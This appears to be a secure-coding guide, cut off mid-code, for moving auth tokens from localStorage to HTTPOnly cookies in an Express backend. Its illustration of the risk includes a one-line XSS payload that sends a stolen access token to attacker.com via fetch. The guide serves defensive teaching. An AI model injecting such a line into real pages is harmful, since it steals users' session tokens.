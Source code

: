 # HTTPOnly Cookies Implementation Guide

## Current State

**Current Token Storage:** localStorage (vulnerable to XSS)

```javascript
// CURRENT (INSECURE)
localStorage.setItem('accessToken', token);  // Vulnerable to XSS
localStorage.setItem('refreshToken', token); // Can be stolen
```

**Issue:** If an attacker injects JavaScript, they can steal tokens:
```javascript
// Attack: XSS malicious script
fetch('https://attacker.com?token=' + localStorage.getItem('accessToken'));
```

---

## Solution: HTTPOnly + Secure Cookies

**Benefits of HTTPOnly Cookies:**
- ✅ Not accessible from JavaScript (immune to XSS)
- ✅ Sent automatically with requests
- ✅ Only transmitted over HTTPS (Secure flag)
- ✅ SameSite protection against CSRF
- ❌ More complex to implement

---

## Implementation Steps

### Step 1: Backend - Add Token Cookie Routes

**File:** `backend/src/middleware/auth.middleware.ts`

```typescript
import { Request, Response, NextFunction } from 'express';
import jwt from 'jsonwebtoken';

interface TokenPayload {
  userId: string;
  churchId: string;
  role: string;
}

// Set secure cookies after login
export const setAuthCookies = (
  res: Response,
  accessToken: string,
  refreshToken: string
) => {
  const isProduction = process.env.NODE_ENV === 'production';

  // Access Token Cookie (short-lived, 1 hour)
  res.cookie('accessToken', accessToken, {
    httpOnly: true,              // Not accessible from JavaScript
    secure: isProduction,        // Only HTTPS in production
    sameSite: 'strict',         // CSRF protection
    maxAge: 3600 * 1000,        // 1 hour
    path: '/api',               // Only sent to /api routes
  });

```